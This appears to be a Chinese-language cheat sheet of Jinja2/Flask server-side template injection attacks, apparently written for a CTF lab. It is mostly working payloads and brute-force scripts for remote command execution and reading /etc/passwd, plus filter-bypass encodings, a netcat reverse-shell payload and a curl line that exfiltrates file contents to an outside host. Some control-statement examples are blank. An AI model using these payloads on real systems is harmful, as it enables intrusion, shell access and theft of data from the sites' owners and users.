

# ssti

## 常用注入模块

原理：调用父类其他子类下可利用模块、函数等

### 文件读取

**函数编号查找**

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        if response.status_code == 200:
            if '_frozen_importlib_external.FileLoader' in response.text:
                print(i)
    except:
        pass
```

查找子类`_frozen_importlib_external.FileLoader`
`<class '_frozen_importlib_external.FileLoader'>`

**`FileLoader`的利用**

```python
["get_data"](0,"/etc/passwd")
调用get_data方法，传入参数0和文件路径
```

```python
{{''.__class__.__mro__[1].__subclasses__()[79]["get_data"](0,"/etc/passwd")}}
```

### 内建函数`eval`执行命令

**函数编号查找**

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if 'eval' in response.text:
                print(i)
    except:
        pass
```

payload:

``` python
{{''.__class__.__bases__[0].__subclasses__()[65].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /etc/passwd").read()')}}
```

`__builtins__`提供对Python的所有"内置"标识符的直接访问

`eval()`计算字符串表达式的值

`__import__` 加载`os`模块`popen()`执行一个 `shel` 以运行命令来开启一个进程，执行`cat /etc/passwd`(system没有回显)

### `os`模块执行命令

在其他函数中直接调用os模块:

```python
通过config
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}

通过url_for
{{url_for.__globals__.os.popen('whoami').read()}}

在已经加载os模块的子类里直接调用os模块
{{''.__class__.__bases__[0].__subclasses__()[426].__init__.__globals__['os'].popen("ls -l /opt").read()}}
```

**函数编号查找**

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if 'os.py' in response.text:
                print(i)
    except:
        pass
```

payload

```python
{{''.__class__.__base__.__subclasses__()[426].__init__.__globals__.os.popen("ls -l /opt").read()}}
```


### `importlib`类执行命令

可以加载第三方库，使用`load_module`加载`os`

python脚本查找`_frozen_importlib.BuiltinImporter`

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"name":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if '_frozen_importlib.BuiltinImporter' in response.text:
                print(i)
    except:
        pass
```

payload

```python
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls -l /opt").read()}}
```


### `linecache`函数执行命令

`linecache`函数可用于读取任意一个文件的某一行，而这个函数中也引入了os 模块，所以我们也可以利用这个 `linecache` 函数去执行命令。

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"name":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if 'linecache' in response.text:
                print(i)
    except:
        pass
```

payload:

```python
{{[].__class__.__base__.__subclasses__()[191].__init__.__globals__['linecache']['os'].popen("ls -l /").read()}}

{{''.__class__.__base__.__subclasses__()[192].__init__.__globals__.linecache.os.popen("ls -l /").read()}}
```

### `subprocess.Popen`类执行命令

从`python2.4`版本开始，可以用 `subprocess` 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

`subprocess` 意在替代其他几个老的模块或者函数，比如:`os.system`、`os.popen` 等函数。

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"name":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if 'subprocess.Popen' in response.text:
                print(i)
    except:
        pass
```

payload

```python
{{[].__class__.__base__.__subclasses__()[200]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}
```

## `{{ }}`双大括号过滤

``

`` 是属于`flask`的控制语,且以``结尾可以通过在控制语句定义变量或者写循环，判断。

1. 判断`{{}}`是否过滤

2. 尝试``

3. 判断语句是否正常执行

   ```python
   Benben
   
   Benben
   ```

4. 有回显说明`''.__class__`有内容

   

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"code":'Benben'}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if 'Benben' in response.text:
                print(i,"--->",data)
                break
    except:
        pass
```

payload

```python

```

## 无回显SSTI

### 反弹shell

直接使用脚本批量执行命令

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    try:
        data = {"code":'{{"".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("netcat IP 端口 -e /bin/bash").read()}}'}
        response = requests.post(url,data=data)
    except:
        pass
```


```bash
nc -lvp 7777
```

### 带外注入

此处使用`wget`方法来带外想要知道的内容

也可以用`dnslog`或者`nc`。

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    try:
        data = {"code":'{{"".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("curl http://192.168.220.131/`cat /ect/passwd`").read()}}'}
        response = requests.post(url,data=data)
    except:
        pass
```

## `[]`中括号绕过

**`__getitem__()`**

`getitem()`是python的一个魔法方法

对字典使用时,传入字符串,返回字典相应键所对应的值,

当对列表使用时,传入整数返回列表对应索引的值,

```python
[117]
改成
__getitem__(117)
```


```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"code":'{{"".__class__.__bases__.__subclasses__().__getitem__('+str(i)+')}}'}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if '_wrap_close' in response.text:
                print(i,"--->",response.text)
                break
    except:
        pass
```


payload

```python
{{''.__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__.__getitem__('popen')("ls").read()}}
```

## 单双引号绕过

```python
import requests
url = input("请输入URL链接：")
for i in range(500):
    data = {"code":'{{"".__class__.__bases__.__subclasses__().__getitem__('+str(i)+')}}'}
    try:
        response = requests.post(url,data=data)

        if response.status_code == 200:
            if '_wrap_close' in response.text:
                print(i,"--->",response.text)
                break
    except:
        pass
```

GET提交

```python
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}

URL?popen=popen&cmd=cat /etc/passwd
code={{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.args.popen](request.args.cmd).read()}}
```

POST提交

```python
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}

code={{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.k1](request.form.k2).read()}}&k1=popen&k2=cat /etc/passwd
```

cookie提交

```python
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}

code={{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.cookies.k1](request.cookies.k2).read()}}

修改cookie
k1=popen;k2=cat /etc/passwd
```

cookie报文

```http
POST /flasklab/level/5 HTTP/1.1
Host: 192.168.220.131:18080
Content-Type: application/x-www-form-urlencoded
Cookie: k1=popen; k2=ls
Content-Length: 120

code={{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.cookies.k1](request.cookies.k2).read()}}
```

## 下划线过滤

过滤器通过管道符号`|`与变量连接,并且在括号中可能有可选的参数。
fask常用过滤器

```python
length()# 获取一个序列或者字典的长度并将其返回
int():# 将值转换为int类型;
float():# 将值转换为float类型，
lower():# 将字符串转换为小写
upper():# 将字符串转换为大写
reverse():#反转字符串;
replace(value,old,new):#将value中的old替换为newlist():#将变量转换为列表类型;
string():#将变量转换成字符串类型
join():#将一个序列中的参数值拼接成字符串,通常有python内置的dict()配合使用
attr():# 获取对象的属性。
```

### request方法绕过

```python
code={{().__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('ls').read()}}

GET
URL?cla=__class__&bas=__base__&sub=__subclasses__&ini=__init__&glo=__globals__&gei=__getitem__
POST
code={{()|attr(request.args.cla)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.gei)(117)|attr(request.args.ini)|attr(request.args.glo)|attr(request.args.gei)('popen')('ls')|attr('read')()}}


POST解析
code={{()
|attr(request.args.cla)					#__class__
|attr(request.args.bas)					#__base__
|attr(request.args.sub)()				#__subclasses__()
|attr(request.args.gei)(117)			#__getitem__(117)
|attr(request.args.ini)					#__init__
|attr(request.args.glo)					#__globals__
|attr(request.args.gei)('popen')('ls')	 #__getitem__('popen')('ls')
|attr('read')()						   #read()
}}
```

### unicode编码绕过

```python
code={{().__class__.__base__.__subclasses__()[199].__init__.__globals__['os']['popen']('ls').read()}}

code={{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(199)|attr("__init__")|attr("__globals__")|attr("__getitem__")('os')|attr("popen")('ls')|attr('read')()}}

unicode编码:
code={{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(199)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")('os')|attr("popen")('ls')|attr('read')()}}
```

```python
__class__
\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f

__base__
\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f

__subclasses__
\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f

__getitem__
\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f

__init__
\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f

__globals__
\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f
```

### 16位编码绕过

```python
code={{()[__class__]__base__.__subclasses__()[199].__init__.__globals__['os']['popen']('ls').read()}}

code={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[199]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['os']['popen']('ls').read()}}
```

### 格式化字符串绕过

不能使用`hackbar`上传

```python
code={{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(199)|attr("__init__")|attr("__globals__")|attr("__getitem__")('os')|attr("popen")('ls')|attr('read')()}}

code={{()|attr("%c%cclass%c%c"%(95,95,95,95))|attr("%c%cbase%c%c"%(95,95,95,95))|attr("%c%csubclasses%c%c"%(95,95,95,95))()|attr("%c%cgetitem%c%c"%(95,95,95,95))(117)|attr("%c%cinit%c%c"%(95,95,95,95))|attr("%c%cglobals%c%c"%(95,95,95,95))|attr("%c%cgetitem%c%c"%(95,95,95,95))("popen")('ls')|attr('read')()}}
```

## 点过滤

### 中括号`[]`绕过

```python
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}

{{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
```


### 过滤器`attr()`绕过

```python
code={{().__class__.__base__.__subclasses__()[199].__init__.__globals__['os']['popen']('ls').read()}}

code={{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(199)|attr("__init__")|attr("__globals__")|attr("__getitem__")('os')|attr("popen")('ls')|attr('read')()}}
```

## 关键字过滤

过滤了`class/arg/from/value/int/global`等关键字

1. 字符编码(`unicode`/16位编码)

1. 字符拼接`'__cl' + 'ass__'`

   ```jinja2
   {{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
   
   {{()['__cla'+'ss__']['__ba'+'se__']['__subc'+'lasses__']()[117]['__in'+'it__']['__glo'+'bals__']['pop'+'en']('cat /etc/passwd')['read']()}}
   ```

   

1. `Jinjia2`中的`~`拼接
   ```jinja2
   {{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
   
   {{()[a~b][c~d][e~f]()[117][g~h][i~j][k~l]('cat /etc/passwd')['read']()}}
   ```

1. 使用过滤器(reverse反转、replace替换、join拼接)

   ```jinja2
   {{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
   
   {{""[a][b][c]()[117][d][e][f]('cat /etc/passwd')['read']()}}
   
   ```

1. 利用python的char()

   ```jinja2
   {{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
   ```

   

## 数字过滤

```jinja2
{{a}} //10
{{a}} //30
{{a}} //97


{{a}}{{()['__class__']['__base__']['__subclasses__']()[a]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
```

## 查看配置文件下的FLAG

```python
{{config}}
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
```

flask内置函数

```python
lipsum #可加载第三方库
url_for #可返回url路径
get_flashed_message #可获取消息
```

flask内置对象

```python
cycler
joiner
config
request
session
namespace
```

可利用己加载内置函数或对象寻找被过滤字符串

可利用内置函数调用`current_app`模块进而查看配置文件

```jinja2
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

